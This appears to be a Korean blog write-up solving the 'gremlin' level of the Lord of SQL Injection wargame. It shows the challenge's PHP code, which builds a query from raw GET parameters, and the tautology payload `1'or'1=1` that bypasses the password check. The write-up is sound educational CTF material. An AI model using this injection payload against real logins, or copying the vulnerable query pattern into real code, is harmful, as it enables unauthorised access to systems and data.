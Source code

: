```yaml
---
layout: post
title: ! "[LOS] gremlin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/gremlin.png)

`query : select id from prob_gremlin where id='' and pw=''`

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
첫번째 문제 gremlin은 이런식으로 query문이 떠있고 url로 id와 pw를 집어넣으면 된다.
id에는 아무값이나 넣어도 되지만 pw는 참이 되어야 하므로
or문을 써야할 것 같다.
쿼리에서 id와 pw를 감싸는 ' 가 있기 때문에 그것까지 고려를 해서 값을 넘겨야 한다.

`?id=(아무값)&pw=1'or'1=1`

이런식으로 써줘야

`query : select id from prob_gremlin where id='mmjlee314' and pw='1'or'1=1'`

이렇게 쿼리문이 완성된다.
1 또는 1이 되므로 pw는 참이 된다.

또 다른 방법으로는 id 부분을 id='1'or'1=1' 이렇게 해주고 pw 부분을 주석처리 하는 것도 있다.
![]({{ site.baseurl }}/assets/posts/los/gremlin_clear.png)

그렘린 클리어!
